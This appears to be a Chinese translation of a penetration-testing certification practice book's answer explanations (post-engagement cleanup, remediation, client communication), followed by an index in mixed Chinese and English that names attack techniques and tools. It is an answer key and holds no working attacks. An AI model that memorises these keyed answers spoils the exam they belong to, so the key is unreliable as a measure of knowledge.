执行摘要是报告中最重要的部分。大多数情况下，这是许多人唯一会阅读的部分，因此应以“大白话”撰写，即以清晰、人人可懂的方式传达报告的所有重要结论。执行摘要用通俗易懂的英语，从高层视角概述了风险和业务影响。其目的是简洁明了。它应为非技术性内容，以便读者能够审阅并深入了解报告中强调的安全问题。

## 55. A

结论是总结报告并提出建议的机会。结论是测试的最终概览。它应以积极的基调结束，为客户提供支持和指导。

## 56. B, C, and D

`CompTIA` 强调了三项重要的后续清理活动：

*   移除渗透测试期间在系统上安装的任何 `shell`
*   移除测试期间创建的任何测试人员账户、凭证或后门
*   移除测试期间安装的任何工具

漏洞修复是后续活动，不作为测试的一部分进行。测试人员应移除测试期间安装的任何 `shell` 或其他工具，以及创建的任何账户或凭证。

## 57. A

在该场景中，最好在经验教训阶段重新审视这种情况。经验教训会议是团队聚在一起讨论测试过程和结果的机会，客户不在场。团队成员应自由讨论测试并提出改进建议。经验教训会议是强调测试期间使用的任何创新技术的良机，这些技术可能用于未来的项目。

## 58. B

渗透测试后，必须撤销你对客户网络所做的一切。最好的方法是在测试过程中仔细记录你所做的一切。这样，你就不会意外遗漏任何事项。

## 59. A and C

渗透测试后，必须撤销你对客户网络所做的一切。因此，如果你创建了任何 `shell`，都需要将其移除。在测试过程中记录你所做的一切也很重要。这样，你就不会意外遗漏任何事项。目标是将所有东西恢复到测试前的状态。

## 60. B

你应在服务完成后获得客户验收。这可能包括对最终报告的书面确认。大多数情况下，这包括面对面会议，你可以在会上与客户讨论项目结果并回答他们可能提出的任何问题。客户验收标志着项目的结束，是测试人员已完成工作范围的正式协议。

## 61. A

发现证明书是渗透测试人员提供的一份文件，用于记录他们进行了测试及其结果，以满足合规目的。它作为测试人员执行渗透测试的记录。它包含发现摘要。其意图供外部使用（客户组织外部），以证明已执行渗透测试并突出测试结果。

## 62. D

在该场景中，由于测试由内部初级管理员执行，公司可能最有利的做法是创建一份提案请求书（`RFP`），聘请专业的渗透测试公司来验证评估并提供漏洞发现。`RFP` 是一份征求提案的文件，通常通过招标流程发布。

## 63. D

在该场景中，你正在讨论技术。技术控制也能为许多安全威胁提供有效防御。补救活动有三大类别：人员、流程和技术。

## 64. B

在该场景中，告诉同事的最佳选项是：多因素认证（`MFA`）使用智能卡和 `PIN` 码。`MFA` 是一种安全系统，要求来自不同凭证类别的多种认证方法来验证用户身份，用于登录或其他事务。认证类别包括：你知道的东西、你拥有的东西和你本身的东西（生物特征）。

## 65. B

在该场景中，你和同事正在讨论“你拥有的东西”。物理对象可用作认证机制。寻求保护敏感信息和关键资源的组织应实施多因素认证。`MFA` 实现结合了来自不同认证类别的两种或多种认证机制。认证类别包括：你知道的东西、你拥有的东西和你本身的东西。

## 66. A

在该场景中，公共 Web 服务器上有多个高位端口处于监听状态。由于客户仅使用 `443` 端口，最佳建议是禁用不需要的服务。不必要的服务会增加攻击面，给潜在攻击者提供额外的途径来尝试利用系统，从而构成安全风险。

## 67. C

系统加固（也称为操作系统加固）有助于最大程度地减少安全漏洞。系统加固的目的是消除尽可能多的安全风险。这通常通过从计算机中移除所有非必要的软件程序和实用程序来完成。通过移除未使用的程序、账户、功能、应用程序、端口、权限、访问权限等进行系统加固的目标是：攻击者获得访问网络的机会更少。系统加固活动有几种类型，包括：

*   应用程序加固
*   操作系统加固
*   服务器加固
*   数据库加固
*   网络加固

## 68. A

最佳建议是禁用任何不需要的服务。不必要的服务会增加客户网络的攻击面，给潜在攻击者提供多种尝试利用系统的途径，从而构成安全风险。攻击面是指给定计算设备或网络中可供潜在黑客访问的漏洞总和。

## 69. A

本地管理员密码解决方案（`LAPS`）是一种 `Microsoft` 工具，用于管理管理凭证。它利用 `Active Directory` 对本地管理员账户凭证进行随机化。有限管理员密码协助（`LAPA`）不存在。`Nessus` 是一款漏洞扫描器，`Metasploit` 是一个用于执行攻击和攻击网络的利用框架。

## 70. B, E, and G

在这种情况下，由于测试人员能够攻破单个工作站，并能在网络中横向移动，给客户的最佳建议如下：

*   **使用多因素认证**：多因素认证（`MFA`）是一种认证方法，计算机用户只有在成功向认证机制提供两个或更多证据（或因素）后才能获得访问权限。
*   **增加最小密码复杂度**：复杂密码以独特的方式使用不同类型的字符来提高安全性，使攻击者更难破解。
*   **启用全盘加密**：全盘加密（`FDE`）是硬件级别的加密。`FDE` 通过自动将硬盘上的数据转换为一种无法被没有密钥“撤销”转换的人理解的形式来工作。

## 71. A

在此场景中，攻击者正在使用重定向。安全分析师应阻止 URL 重定向。URL 重定向是一种 Web 服务器功能，它将用户从一个 URL 发送到另一个 URL。重定向通常采用自动重定向的形式，使用 HTTP 协议中定义的一系列状态代码之一。因此，当 Web 浏览器尝试打开已被重定向的 URL 时，将打开一个具有不同 URL 的页面。

## 72. A, F, and G

在此场景中，测试人员应建议客户增加密码复杂度要求，因为测试人员能够通过字典攻击破解它们。测试人员还应建议所有员工接受安全意识培训，因为是 IT 部门的一名成员在测试人员使用钓鱼技术时泄露了相关信息。测试人员还应建议升级 VPN 解决方案使用的密码套件。密码套件是一组算法，有助于保护使用传输层安全性（`TLS`）或安全套接字层（`SSL`）的网络连接。密码套件通常包含的算法包括密钥交换算法、块加密算法和消息认证码（`MAC`）算法。

## 73. A

在此场景中，测试人员应建议客户启用 HTTP 严格传输安全（`HSTS`）。`HSTS` 响应头允许网站告诉浏览器它只能通过 HTTPS 访问，而不是使用 HTTP。它是一种选择加入的安全增强功能，由 Web 应用程序通过使用特殊的响应头指定。一旦支持的浏览器收到此头，该浏览器将阻止任何通过 HTTP 发送到指定域的通信，而是将所有通信通过 HTTPS 发送。

## 74. A and B

这些可能是需要立即与客户沟通的时刻。以下是一些常见的渗透测试沟通触发点。沟通触发点应在测试阶段完成后、发现关键漏洞时，或发现先前妥协的指标时进行。在此场景中，如果系统在尝试测试后变得不可用，以及系统显示先前未经授权访问的迹象，您会希望联系客户。

## 75. D

在此场景中，客户没有预算立即修复所有发现的漏洞。在这种情况下，给客户的最佳建议是首先修复最关键的漏洞，然后在资金可用时，修复其他关键漏洞。

## 76. B

在此场景中，由于渗透测试人员发现了一个关键漏洞，测试人员应立即向客户通报发现的详细信息。

## 77. A

去冲突是指客户与测试人员之间的沟通，以确定检测到的攻击者是否实际上是物理安全评估的一部分。有时可能需要创建一张“免死金牌”，上面有知情高级职员的非工作时间紧急电话号码，他们可以确认测试人员有权进行所要求的测试。

## 78. B

*降级* 一词是指客户与测试人员之间的沟通过程，旨在停止渗透测试期间使用的任何利用行为，因为这些行为可能对客户网络产生影响。在此场景中，客户因网站问题而损失销售额，因此需要停止测试。

## 79. D

在此场景中，测试人员已完成一个测试阶段，准备进入下一阶段。这称为*阶段*。在完成一个测试阶段时，测试人员应联系客户，告知其一个阶段的完成情况，并继续进行下一阶段的测试。

## 80. A

如果渗透测试人员发现其客户环境安全性存在关键问题，不应等待最终报告的交付。让关键漏洞得不到解决，可能会使客户面临不可接受的风险水平，并导致潜在的妥协。测试人员应立即通知管理层该问题。

# 索引

## A

*   访问
    *   控制台，124，234
    *   PCI-DSS 要求，22–23
    *   先前未经授权，207，248
*   接入点
    *   无线设备，205
    *   Zenmap 实用程序，55
*   账户
    *   利用持久化，126
    *   加固，201
    *   非活动，84，223
    *   锁定，197–198
    *   名称，154
    *   只读，84，223
*   目标阶段，38
*   Active Directory
    *   认证，117
    *   后门账户，186
    *   域控制器，201
    *   KDC，116
    *   Kerberos 黄金票据，155
    *   用户，11
    *   工作站，110
*   Active Directory 联合身份验证服务，201
*   `ADMIN$` 共享，131
*   管理密码，196
    *   默认，80，204–205
    *   Zenmap 实用程序，57
*   采用黑客思维方法，26
*   高级持续性威胁（`APTs`），37
    *   攻击者，7
    *   危害，30
    *   描述，37，218
    *   冒充，217
    *   目标，7
    *   商业机密，37
*   `AFL` 工具，157
*   密码使用期限，196–198
*   协议
    *   协议语言，32
    *   `MSAs`，12，30，39，220
    *   `NDAs`，12，29，39
    *   竞业禁止，12
*   `aircrack-ng` 工具
    *   加密，222
    *   OSINT，47
    *   密码，155
    *   射频发射，65
*   `aireplay-ng` 工具，66
*   `airodump-ng` 工具，65
*   篡改
    *   描述，27
    *   SQL 注入攻击，28
*   杀毒软件，22

## A（续）

*   **Apache** 用于 Banner Grabbing，62
*   **API (Application Programming Interface)**
    *   文档，17
    *   **Swagger** 框架，215
*   **APK Studio** 工具，157、161
*   **APKX** 工具，157、161
*   **Apple Remote Desktop (ARD)**，124
*   **Application Programming Interface (API)**
    *   文档，17
    *   **Swagger** 框架，215
*   **APTs** *参见* 高级持续性威胁 (APTs)
*   架构图，17、215
*   **ARD (Apple Remote Desktop)**，124
*   **ARP 欺骗**
    *   MAC 地址，128、228
    *   MITM 攻击，110、112
*   `arpspoof -t` 命令，129
*   脚本中的数组，162–165、177、241
*   汇编级代码，67
*   资产分类
    *   方法，78
    *   子网，85
*   资产子网，85、223
*   `traceroute` 命令的星号 (`*`)，50–51
*   `at` 工具，125
*   **攻击与漏洞利用概述**
    *   ARP 欺骗，110、112、128
    *   权威诉求，98–101、130
    *   自动任务，125
    *   徽章克隆，104–105、134
    *   蓝牙垃圾信息攻击，114、134
    *   蓝牙信息窃取，114
    *   商业电子邮件诈骗，98
    *   `chmod` 命令，131
    *   网络明文传输，125
    *   点击劫持，117、130
    *   编码实践，118–119
    *   冷启动攻击，123
    *   命令历史清除，132
    *   命令注入，134
    *   控制台访问，124
    *   Cookie 操纵，118
    *   `cPassword` 属性，120
    *   凭证，114–116、133
    *   跨站请求伪造，117
    *   跨站脚本攻击，117、128、135
    *   **CVE** 数据库，119
    *   解除认证攻击，131
    *   默认账户设置漏洞利用，122–123
    *   拒绝服务，112
    *   目录遍历，118、132
    *   分布式拒绝服务，112
    *   **DLL** 劫持，122
    *   DNS 缓存投毒，109
    *   DNS 投毒，109
    *   垃圾箱搜集，103–105
    *   出口传感器绕过，103
    *   诱导，95–96、98
    *   紧急故障开放，105
    *   邪恶双子攻击，113、127
    *   恐惧因素，100、102
    *   翻越围栏，103–104
    *   文件包含，118
    *   分片攻击，114
    *   **FTP** 服务器，108
    *   隐藏漏洞利用，126
    *   **HTML** 表单，130
    *   冒充，95–97、132
    *   不安全的直接对象引用，117
    *   审讯，95、98
    *   干扰，115
    *   **JTAG** 调试漏洞利用，123
    *   **Karma** 攻击，113
    *   **Kerberoasting**，121、130
    *   **Kerberos** 漏洞利用，116
    *   内核漏洞利用，122
    *   键盘记录器，135
    *   **LDAP**，121
    *   相似度因素，100、102
    *   **LLMNR**，106–107
    *   锁绕过，103、105、130
    *   开锁，103、105
    *   **LSASS**，121
    *   MITM 攻击，129、132
    *   **NAC**，112–113
    *   空会话，133
    *   开放端口，106
    *   **OSINT**，127
    *   参数污染，117
    *   哈希传递，110
    *   持久化，125、131
    *   网络钓鱼，94、96、127
    *   搭便车，102、104、133
    *   权限提升，120
    *   **PsExec**，131
    *   竞争条件，135
    *   重定向攻击，116
    *   中继攻击，111
    *   远程代码执行，123
    *   远程系统管理，124–125
    *   重放攻击，115
    *   重放攻击，110
    *   **Ret2libc**，120
    *   **RFID** 克隆，114–115
    *   Root 执行，120
    *   **SAM** 数据库，121
    *   **SAN**，131
    *   沙箱逃逸漏洞利用，123
    *   稀缺性因素，99、101
    *   计划任务，122


*   串口控制台连接，123
*   服务器，106
*   会话劫持，116、135
*   Shell 升级，133
*   偷窥，96、98
*   **SMB** 协议，107
*   短信钓鱼攻击，94
*   短信网络钓鱼，97
*   **SMTP**，108
*   **SMTP** 中继，108
*   **SNMPv1** 协议，107
*   社会工程学，97、128
*   社会认同因素，99、101
*   定向网络钓鱼，94、97、127、133
*   **SQL** 注入，115、132–133
*   **SSL** 剥离，111
*   存储型跨站脚本攻击，128
*   尾随，102、104
*   **TCP SYN Flood** 攻击，128

# 索引

## T

*   特洛伊木马，126
*   通过 `PXE` 进行无人值守安装，121
*   未加引号的服务路径，122，134
*   不安全的权限，122
*   不安全的服务，119
*   紧迫性因素，99–101
*   `USB` 钥匙投放，96–97
*   语音钓鱼，95，97，134
*   `VLAN`，113
*   网页抓取，129
*   鲸钓，94，97
*   白名单设备，113
*   无线设备信息，127，229
*   `WMI`，124
*   工作站，106
*   `WPS` 破解，114

## A

*   发现证明，206，245
*   认证
    *   证书绑定，217
    *   解除认证攻击，131
    *   `HSTS`，248
    *   多因素。*参见* 多因素认证
    *   无线设备，205
*   权威诉求
    *   示例，98–101，130，227
    *   钓鱼攻击，233
    *   社会工程学，128
*   授权
    *   云内容，39
    *   来源，34
    *   书面，11
*   自动运行，禁用，202
*   可用性问题，27，248

## B

*   后门
    *   `Active Directory`，186
    *   利用持久化，126
*   徽章克隆，27，134，233–234
*   无线设备频段，127，229
*   标志抓取，60–62
*   `bash`
    *   历史记录，234
    *   反向 Shell，242
    *   脚本，162–163，166–169，171–174
*   `BeEF (Browser Exploitation Framework)` 工具，156，174，238
*   交战规则中的行为，8
*   绑定 Shell 漏洞利用，160，239
*   生物识别扫描仪
    *   指纹，83，85
    *   多因素认证，200
    *   视网膜扫描，199
*   黑盒评估
    *   成本，11
    *   描述，5
    *   信息收集和漏洞识别，44–49
    *   网络图，17
    *   外部人员攻击，10
    *   先决条件，20
    *   范围，24
    *   策略，219
    *   测试人员位置，25
    *   零知识评估，33，35
*   `SQL` 注入中的黑名单验证，132–133，230
*   黑名单 `IP` 地址，30，219
*   蓝杰克，114，134，229
*   蓝牙窃取，114
*   广播消息
    *   伪造，110
    *   `Impacket` 工具，178，237
*   浏览器利用框架 (`BeEF`) 工具，156，174，238
*   暴力破解攻击
    *   凭证，115
    *   `Hydra` 工具，237
    *   对比彩虹攻击，87，226
    *   工具，155，172
*   预算，范围对其的影响，36，219
*   撞匙，69
*   商务电子邮件入侵，98

## C

*   `Cain and Abel` 工具，154
*   `CAPEC (Common Attack Pattern Enumeration and Classification，通用攻击模式枚举与分类)`
    *   描述，68，221
    *   `OSINT`，88
*   持卡人数据环境 (`CDE`)，22
*   脚本中的 `case` 结构，169
*   `Censys` 工具
    *   描述，221
    *   互联网设备，179，239
    *   `IP` 地址，45
*   `centralops.net` 网站，51–54
*   `CERT (Computer Emergency Response Team，计算机应急响应小组)`
    *   描述，67，69，221
    *   `OSINT`，87
*   证书检查，63
*   证书绑定
    *   认证，38，217
    *   网络访问控制，20，33
*   `CeWL` 工具
    *   密码，158
    *   字典，174，238
*   `chage` 命令，197–198
*   `chkconfig` 工具，126，234
*   `chmod` 命令，131
*   `CIA` 三要素模型，216
*   密码套件
    *   `Censys` 工具，45，221
    *   升级，247
*   网络上的明文传输，125
*   点击劫持，117，130
*   客户验收，206，244–245
*   `Telnet` 服务中的关闭端口状态，145
*   代码
    *   汇编级，67
    *   交叉编译，80，86，226
    *   动态代码分析，75
    *   远程执行，123
    *   静态代码分析，75，77，84，223
    *   不安全的实践，118–119
    *   代码签名，118
*   冷启动攻击，123
*   命令历史清除，132，234
*   命令注入，134，229
*   通用攻击模式枚举与分类 (`CAPEC`)
    *   描述，68，221
    *   `OSINT`，88
*   通用漏洞披露 (`CVE`) 数据库
    *   攻击和漏洞利用，119
    *   描述，68
    *   老旧服务器，68–69
*   通用漏洞评分系统 (`CVSS`)
    *   示例，79
    *   风险评分，207，225，242
*   通用弱点枚举 (`CWE`) 数据库，68
*   `SNMPv1` 协议中的团体字，107
*   公司策略

## C

*   **密码**, 36, 216–217
    *   规划用, 216
*   **基于合规性的评估**
    *   描述, 4, 14
    *   发现扫描, 84
    *   `PCI-DSS` 标准, 32
*   **合规性漏洞**
    *   `PCI-DSS` 测试, 72
    *   测试位置, 74
    *   工具, 156–157
*   **妥协指标**, 报告, 37
*   **计算机控制制造设备**, 75
*   **计算机应急响应小组 (CERT)**
    *   描述, 67, 69, 221
    *   `OSINT`, 87
*   **结论**, 报告, 189–191, 243
*   **机密性**
    *   `CIA` 三要素模型, 216
    *   描述, 27
    *   发现的机密性, 24
    *   理由, 36, 214
*   **控制台访问**, 124, 234
*   **容器**
    *   问题, 74
    *   沙箱逃逸漏洞利用, 123
*   **脚本中的控制结构**, 169–170
*   **Cookie**
    *   操纵, 118
    *   会话劫持攻击, 135
*   **企业策略**, 36, 217
*   **企业纳税申报**, 46
*   **cPassword 属性**, 120
*   **凭证暴力破解**
    *   描述, 115
    *   `Hydra` 工具, 237
    *   尾随, 82
*   **凭证扫描**
    *   账户设置, 84
    *   描述, 86, 224
    *   登录信息, 73
    *   结果, 70
    *   系统管理员视角, 69
*   **凭证**
    *   管理员, 196
    *   攻击, 114–116
    *   默认, 116
    *   硬编码, 119
    *   收集, 114
    *   `LLMNR/NETBIOS-NS` 查询, 133, 228
    *   移除, 206
    *   工具, 172
    *   `VPN`, 209, 247
    *   弱, 116
*   **犯罪现场工具**, 156
*   **关键发现和漏洞**
    *   报告, 37, 186–187, 208, 210, 243, 249
    *   建议行动, 207, 248
*   **交叉编译代码**
    *   旧服务器, 80
    *   目的, 86, 226
*   **跨站请求伪造 (CSRF)**, 117
*   **跨站脚本 (XSS) 攻击**
    *   描述, 128, 229
    *   示例, 117
    *   `HTML` 注入, 135
*   **加密模块**, 23
*   **CSRF (跨站请求伪造)**, 117
*   **CVE (通用漏洞披露) 数据库**
    *   攻击和漏洞利用, 119
    *   描述, 68
    *   旧服务器, 68–69
*   **CVSS (通用漏洞评分系统)**
    *   示例, 79
    *   风险评分, 207, 225, 242
*   **CWE (通用弱点枚举) 数据库**, 68
*   **网络攻击链模型**, 38

## D

*   **DAST (动态应用安全测试)**, 157
*   **数据泄漏**
    *   网络设备, 123
    *   工具, 159
*   **DDoS (分布式拒绝服务) 攻击**, 112
*   **冲突消除**, 183–185, 249
*   **降级处理**, 183–185, 249
*   **邪恶双子攻击中的解除认证帧**, 113
*   **解除认证攻击**, 131
*   **调试可执行文件**, 67
*   **欺骗**, 81
*   **反编译**
    *   汇编级代码, 67
    *   可执行文件, 66–67, 157
    *   默认账户设置漏洞利用, 122–123
*   **默认管理员密码**
    *   信息收集和漏洞识别, 80
    *   报告和沟通, 204–205
    *   `Zenmap` 实用程序, 57
*   **默认凭证攻击**, 116
*   **默认密码**, `PCI-DSS` 要求, 22
*   **抵赖**, 27–28
*   **拒绝服务 (DoS) 攻击**, 112
*   **交战规则中的详细信息**, 9
*   **无线设备的 DHCP**, 205
*   **字典攻击**
    *   描述, 82
    *   员工档案, 85, 225
*   **dig axfr 命令**, 75
*   **Dirbuster** 工具, 158
*   **定向天线**, 205
*   **目录遍历**
    *   描述, 118
    *   日志, 132, 230
*   **禁用**
    *   `DHCP`, 205
    *   不必要的服务, 202, 208, 211, 246
    *   未使用的账户, 201
*   **交战规则中的免责声明**, 9
*   **披露**, 27–28
*   **发现扫描**
    *   描述, 84, 222
    *   `IDS`, 71
    *   `IPS`, 71
    *   `Ping` 扫描, 70
*   **磁盘擦除软件**, 192
*   **处置**, 192–193
*   **分布式拒绝服务 (DDoS) 攻击**, 112
*   **DLL 劫持**
    *   描述, 122
    *   漏洞利用持久化, 122
*   **DNS**
    *   缓存投毒, 109
    *   `nmap`, 146
    *   `OSINT`, 46
    *   投毒, 109
    *   区域传送, 75
*   **DNS 服务器**
    *   `LLMNR`, 106
    *   端口, 50
    *   `Zenmap`, 63
*   **DNSSEC**, 109
*   **文档对象模型 (DOM) 跨站脚本攻击**, 117
*   **文档**
    *   `MSA`, 220
    *   渗透测试规划和范围界定, 16–18
    *   交战后清理阶段, 244
    *   红队评估, 217
    *   报告, 205–207
    *   交战规则, 10

# 索引

## D

*   **DOM** (Document Object Model) 跨站脚本攻击，117
*   **域控制器**
    *   端口，49
    *   **Zenmap** 实用程序，59、62–63
*   **DoS** (Denial of Service，拒绝服务) 攻击，112
*   **VLAN** 跳跃中的双重标记，113
*   **降级攻击**
    *   描述，111
    *   **邪恶双生** 攻击，127
    *   **HTTP**，229
    *   **MITM**，112
*   **Drozer** 工具，160
*   **dsquery user** 命令，84、223
*   **垃圾箱搜寻**
    *   访问徽章，105
    *   认证凭据，46
    *   描述，104
    *   光盘，103
*   **动态应用安全测试** (DAST)，157
*   **动态代码分析**，75

## E

*   **出口传感器绕过**，103
*   **802.1x 认证**，205
*   **引诱**，95–96、98
*   **电子邮件**
    *   **商务电子邮件入侵**，98
    *   **HELO** 命令，54
    *   **网络钓鱼** 攻击，11、96
    *   端口，49
    *   **简单邮件传输协议**，108
*   **centralops.net 网站上的电子邮件地址**，53
*   **centralops.net 网站上的电子邮件命名约定**，54
*   **辐射泄露**
    *   网络设备，123
    *   工具，159
*   **嵌入式设备**，82–83
*   **紧急故障开放**，105
*   **Empire** 工具，155
*   **员工简历**，46
*   **enable secret** 命令，205
*   **加密**
    *   **aircrack-ng** 工具，65
    *   **分片攻击**，114
    *   **Kerberoasting**，121
    *   **ncat**，160
    *   **PCI-DSS** 要求，22
    *   报告和通信，208
    *   **SAN**，131
    *   无线设备，159、222
*   **枚举过程**
    *   信息收集，72–73
    *   **theHarvester** 工具，76
*   **错误消息**，冗长，118
*   **转义数据**，报告，201
*   **/etc/shadow** 文件，203
*   **EternalBlue** 漏洞利用，107
*   **邪恶双生攻击**
    *   步骤，127
    *   任务，113
*   **可执行文件**
    *   调试，67
    *   反编译，66–67
    *   工具，157
*   **高管简介**，46
*   **执行摘要**
    *   内容，211、242–243
    *   发现，189
    *   风险等级，208
    *   测试和结果，243
*   **过期的 SSL/TLS 安全证书**，78
*   **漏洞利用链**，81
*   **Exploit-DB** 数据库，161
*   **漏洞利用修改**，81
*   **漏洞利用持久化**
    *   **chkconfig --del** 命令，234
    *   **reg save** 命令，126
    *   注册表项，131
    *   计划任务，122、125
    *   用户账户，126
*   **漏洞利用概述**。*参见* 攻击和漏洞利用概述
*   **外部团队**，26

## F

*   **设施地图**，17、215


# 索引

## F

*   **误报**
    *   描述，78、86、225
    *   指纹生物识别扫描仪，85

*   **恐惧因素**，100、102

*   **翻越围栏**，103–104

*   **文件包含**，118

*   **文件共享**，107

*   **文件传输**，204

*   **Telnet 服务中的 Filtered 端口状态**，145

*   **发现和修复**
    *   机密性，24、36
    *   报告。*参见* 报告和通信
    *   风险承受度，242

*   **Findsecbugs** 工具，157

*   **指纹扫描**
    *   伪造指纹，83
    *   误报，85
    *   多因素认证，199
    *   **nmap**，177、236

*   **FOCA** (Fingerprinting Organizations with Collected Archives，利用收集的档案进行组织指纹识别)，45

*   **FIPS 140-2**，23

*   **闪存驱动器**，粉碎，192

*   **脚本中的流控制结构**，169–170

*   **FOCA** (Fingerprinting Organizations with Collected Archives)，45

*   **后续行动**，207

*   **脚本中的 for 循环**，170

*   **foremost** 工具，156

*   **表单**，**HTML**，130、232

*   **转发流量**，236

*   **分片攻击**，114

*   **分片数据包**，148

*   **无线设备的频率**，127、229

*   **FTK** 工具，156

*   **FTP**
    *   端口，49、108
    *   不安全服务，119

*   **FTPS**，204

*   **Full Disclosure**，68

*   **全盘加密**，208、247

*   **全知测试**，29、33

*   **全扫描**
    *   描述，224
    *   示例，70–72
    *   信息收集，86

*   **模糊测试**
    *   描述，75、78
    *   工具，157

## G

*   **ARP 欺骗中的网关地址**，128、228

*   **GLBA** (Gramm-Leach-Bliley Act，格雷姆-里奇-比利雷法案)，23、220

*   **基于目标的评估**，13、218

*   **目标重新确定优先级**，188

*   **Kerberos 中的黄金票据**，155

*   **政府承包商目标**，7

*   **格雷姆-里奇-比利雷法案** (GLBA)，23、220

*   **灰盒评估**
    *   示例，10–11
    *   内部攻击，218
    *   端口，49–50
    *   交战规则，33
    *   确定范围，24–25

*   **grep** 命令，148

*   **组策略**
    *   **cPassword** 属性，120
    *   强化用户账户，201–202
    *   报告和通信，196–199
    *   技术解决方案，194

## H

*   **黑客心态**，26

# 索引

## H

*   **hacktivist attacks**
    *   description, 39, 220
    *   examples, 6–7
    *   threat risk, 14

*   **handshakes in stealth scans**, 71

*   **hard-coded credentials**, 119

*   **hardening systems**, 201–204, 208, 246

*   **hashcat tool**, 157

*   **hashed passwords**
    *   salting, 199
    *   SAM database, 121

*   **hashes in rainbow attacks**, 87

*   **Health Insurance Portability and Accountability Act (HIPAA)**
    *   description, 220
    *   healthcare-related compliance, 23

*   **HELO commands for email servers**, 54

*   **hidden HTML elements**, 119

*   **hiding exploits**, 126

*   **high vulnerability category**, 79

*   **hijacking attacks**
    *   DLL, 122
    *   session, 116, 135, 232

*   **HIPAA (Health Insurance Portability and Accountability Act)**
    *   description, 220
    *   healthcare-related compliance, 23

*   **histories**
    *   bash, 234
    *   passwords, 196
    *   tools, 174

*   **history -c command**, 132

*   **HKEY_CURRENT_USER key**, 131

*   **Hopper tool**, 156

*   **hopping between VLANs**, 113

*   **host command for zone transfers**, 75

*   **host scans**, 142–144, 146–147, 149

*   **hping utility**
    *   active connections, 154, 237
    *   custom packets, 76
    *   remote systems, 175, 235

*   **HSTS (HTTP Strict Transport Security)**
    *   authentication, 209, 248
    *   SSL stripping, 111

*   **HTML**
    *   forms, 130, 232
    *   hidden elements, 119

*   **HTTP**
    *   downgrade attacks, 229
    *   REST architecture, 19
    *   server ports, 50
    *   Zenmap utility, 56

*   **HTTP POST method**, 130, 232

*   **HTTP Strict Transport Security (HSTS)**
    *   authentication, 209, 248
    *   SSL stripping, 111

*   **Hydra tool**
    *   brute-force attacks, 155, 172, 237
    *   login attempts, 158
    *   pass-the-hash exploit, 174, 238

*   **Hyper-V tool**, 201

## I

*   **ICSS (Industrial Control Systems)**, 82

*   **IDA tool**, 156

*   **IDSS (intrusion detection systems)**
    *   discovery scans, 71
    *   full scans, 70
    *   stealth scans, 72

*   **if/then/else structures**, 170, 240

*   **IMAP email server ports**, 49

*   **Impacket tool**
    *   broadcast messages, 178, 237
    *   low-level network access, 161
    *   proxy connections, 160

*   **impact analyses**, 24

*   **impact tolerance**
    *   determining, 216
    *   example, 34
    *   in planning and scoping, 36

*   **impersonation**
    *   APT, 217
    *   description, 132, 227
    *   examples, 95–97
    *   responder, 238
    *   tools, 177

*   **in-house developed applications**, 18

*   **in-scope parameters**
    *   resources, 34
    *   rules of engagement, 8
    *   scoping, 13

*   **inactive user accounts**, 84, 223

*   **inconsistent updating of mobile devices**, 82

*   **indicators of prior compromise**, 186–188

*   **Industrial Control Systems (ICSS)**, 82

*   **information gathering and vulnerability identification**
    *   asset categorization, 78, 85
    *   banner grabbing, 60–61
    *   black box assessment, 44–49
    *   brute-force attacks, 87
    *   bump keys, 69
    *   CAPEC, 68
    *   Censys tool, 45
    *   centralops.net website, 51–54
    *   CERT, 67, 69, 87
    *   compliance vulnerabilities, 72, 74
    *   containers, 74
    *   credential brute-forcing, 82
    *   credentialed scans, 69–70, 73, 84, 86
    *   cross-compile code, 86
    *   CVE database, 68–69
    *   CVSS, 79
    *   debugging executables, 67
    *   decompiling executables, 66–67
    *   default administrative passwords, 80
    *   dictionary attacks, 82, 85
    *   discovery scans, 70–71, 84
    *   DNS server ports, 50
    *   DNS zone transfers, 75
    *   domain controller ports, 49
    *   dumpster diving, 46
    *   dynamic code analysis, 75
    *   email addresses, 53
    *   email naming conventions, 54
    *   email server HELO commands, 54
    *   embedded devices, 82–83
    *   enumeration process, 72–73
    *   executive bios, 46
    *   expired SSL/TLS security certificates, 78
    *   exploit chaining, 81
    *   false positives, 78, 86
    *   fingerprint biometric scanners, 83, 85
    *   FOCA, 45
    *   FTP server port, 49
    *   Full Disclosure, 68
    *   full scans, 70–72, 86
    *   fuzz testing, 75, 78
    *   gray box assessment, 49–50
    *   hping utility, 76
    *   HTTP server ports, 50
    *   IMAP email server ports, 49
    *   inactive user accounts, 84
    *   internal networks, 77
    *   IoT devices, 82–83
    *   IT staff availability, 77

## 索引

*   **JPCERT**, 67

*   **实验室环境**, 78

*   **LDAP 服务器端口**, 50

*   **Maltego 工具**, 45

*   **制造设备和环境系统**, 82

*   **漏洞映射**, 80

*   **移动设备**, 82

*   **nmap 实用程序**, 45, 55, 76

*   **非凭证漏洞**, 70

*   **非传统资产**, 75

*   **nslookup 工具**, 44, 48

*   **NVD**, 68–69

*   **旧版系统**, 80–81

*   **OSINT**, 46–47, 87–88

*   **数据包捕获**, 65–66

*   **被动扫描**, 86

*   **Ping 扫描**, 70

*   **POS 系统**, 83

*   **新闻稿**, 46

*   **漏洞优先级排序**, 79

*   **射频发射**, 65–66

*   **彩虹表**, 82, 87

*   **recon-ng 工具**, 44

*   **SCADA 设备**, 77, 85

*   **扫描计划**, 73

*   **扫描限速**, 73–74

*   **安全更新**, 80

*   **Shodan 工具**, 45

*   **智能 IoT 设备**, 82–83

*   **SMB 文件服务器端口**, 48

*   **SMTP 服务器端口**, 48

*   **SSH 服务器端口**, 50

*   **sslyze 工具**, 63

*   **静态代码分析**, 75, 77, 84

*   **隐蔽扫描**, 71–72, 88

*   **TCP 端口**, 76

*   **Telnet 服务器端口**, 49

*   **测试计划**, 84

*   **theHarvester 工具**, 44, 46, 76

*   **时间要求**, 222

*   **traceroute 命令**, 50–51

*   **漏洞排名**, 69

*   **支持网络的电视显示器**, 75

*   **Web 服务器**, 64, 68–69, 73, 83–84

*   **whois 工具**, 44, 47, 77

*   **Zenmap 实用程序**, 55–63

*   **基础设施漏洞**, 11

*   **固有风险**, 10

*   **疯狂模式计时选项**, 147

*   **不安全的直接对象引用攻击**, 117

*   **内部攻击**
    *   描述, 31
    *   灰盒评估, 10, 218
    *   威胁风险, 14

*   **完整性**, 27

*   **情报驱动防御模型**, 38

*   **内部网络扫描**, 74, 77

*   **内部团队**, 25

*   **内部测试**, 34

*   **互联网设备**
    *   **Censys 工具**, 239
    *   **Shodan 工具**, 239

*   **物联网设备**, 83, 226

*   **国际刑警组织法规**, 16

*   **审讯**
    *   描述, 227
    *   示例, 95

*   **社会工程学**, 97

*   **入侵检测系统 (IDS)**
    *   发现扫描, 71
    *   完整扫描, 70
